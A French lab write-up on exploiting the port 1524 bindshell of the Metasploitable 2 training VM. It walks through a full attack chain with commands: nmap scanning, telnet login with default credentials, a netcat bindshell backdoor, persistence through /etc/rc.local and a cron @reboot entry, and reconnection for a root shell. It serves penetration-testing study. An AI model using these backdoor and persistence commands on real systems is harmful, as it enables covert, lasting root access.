

# Exploitation d'une Backdoor (Port 1524)

## 1. Présentation du port 1524

Aujourd'hui on va regarder le port 1524, qui correspond au service Bindshell.

Un Bindshell c'est un programme qui ouvre un shell et le rend accessible directement via le réseau sur un port.

Par exemple, voici ce qui se passe quand un attaquant se connecte sur ce port :

1. Un programme tourne en arrière plan sur la machine victime.
2. Ce programme écoute sur le port 1524.
3. Si quelqu'un se connecte sur ce port, il reçoit directement un terminal avec les droits root.

Un Bindshell dans la vraie vie est toujours malveillant c'est ce qu'on appelle une backdoor.

Un attaquant l'installe après avoir compromis une machine pour :

-   Revenir quand il veut sans repasser par la faille initiale
-   Avoir un accès permanent même si la faille est corrigée
-   Maintenir son accès dans le temps

C'est ce qu'on appelle la persistance.

------------------------------------------------------------------------

## 2. Pourquoi il est vulnérable

Ce n'est pas vraiment une vulnérabilité classique , c'est une backdoor intentionnelle.

```
Port 1524 ouvert
      ↓
Aucune authentification requise
      ↓
Aucun mot de passe
      ↓
Accès root direct
```

C'est le pire scénario possible en sécurité une porte grande ouverte avec les droits maximum.

------------------------------------------------------------------------

## 3. Quel type de données on peut récupérer

Comme on arrive directement en root on a accès à absolument tout :

| Fichier | Contenu |
|---------|---------|
| `/etc/passwd` | Liste de tous les utilisateurs |
| `/etc/shadow` | Mots de passe hashés de tous les users |
| `/etc/hosts` | Configuration réseau |
| `/root/` | Fichiers personnels du root |
| `/var/log/` | Tous les logs du système |
| `/home/*/` | Fichiers de tous les utilisateurs |

------------------------------------------------------------------------

## 4. Comment ça se passe dans une vraie attaque

Dans la vraie vie on ne trouve pas un bindshell déjà installé :il faut d'abord entrer sur la machine via une autre faille puis l'installer soi même.

Voici la chaîne d'attaque complète :

**Étape 1 — Reconnaissance**

On commence par scanner la cible pour trouver un port vulnérable :

```bash
nmap -sS -sV 192.168.1.50
```

On trouve par exemple le port 23 (Telnet) ouvert.

**Étape 2 — Exploitation de la faille initiale**

On entre sur la machine via la faille trouvée :

```bash
telnet 192.168.1.50
# Login: msfadmin
# Password: msfadmin
```

**Étape 3 — On est dans le shell, on installe la backdoor**

Une fois connecté on installe notre backdoor :

```bash
nc -lvp 1524 -e /bin/bash &
```

Explication de la commande :

-   `nc` = Netcat, le couteau suisse du réseau
-   `-l` = écoute les connexions entrantes (listen)
-   `-v` = affiche ce qui se passe (verbose)
-   `-p 1524` = ouvre le port 1524
-   `-e /bin/bash` = donne un shell bash à qui se connecte
-   `&` = tourne en arrière plan ,très important, sans lui la backdoor s'arrête quand on se déconnecte

**Étape 4 — On s'assure que la backdoor survive au redémarrage**

Pour que la backdoor reste même si la machine redémarre :

```bash
# Méthode 1 — Ajout au démarrage système
echo "nc -lvp 1524 -e /bin/bash &" >> /etc/rc.local

# Méthode 2 — Via une tâche planifiée (cron)
crontab -e
@reboot nc -lvp 1524 -e /bin/bash &
```

**Étape 5 — On se déconnecte**

```bash
exit
# La faille initiale peut être corrigée
# Notre backdoor tourne toujours en arrière plan
```

**Étape 6 — On revient quand on veut**

```bash
nc 192.168.1.50 1524
# Shell direct sans repasser par la faille
```

------------------------------------------------------------------------

## 5. Dans notre cas — Metasploitable 2

Dans notre cas tout a déjà été fait par les créateurs de Metasploitable 2.

La backdoor est déjà installée et le port 1524 écoute déjà les connexions.

On arrive donc directement à l'étape 6 — la connexion directe.

------------------------------------------------------------------------

## 6. Exploitation

On ouvre un terminal sur notre machine et on tape :

```bash
nc 192.168.200.2 1524
```

On obtient directement un shell root sur la machine cible :

```bash
root@metasploitable:/#
```

Le symbole `#` confirme qu'on est root on a donc l'accès total à la machine.




